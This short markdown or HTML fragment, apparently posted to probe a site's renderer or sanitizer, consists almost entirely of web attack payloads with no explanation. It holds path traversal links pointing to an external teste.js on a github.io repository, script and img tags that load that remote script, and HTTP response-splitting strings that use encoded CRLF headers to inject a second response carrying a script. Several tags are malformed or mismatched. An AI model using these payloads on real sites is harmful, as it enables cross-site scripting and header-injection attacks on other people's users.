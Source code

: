 [<sctipt>Google</script>](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<input type="text">
<button>asdf</button>
<script src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"><script>
<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">
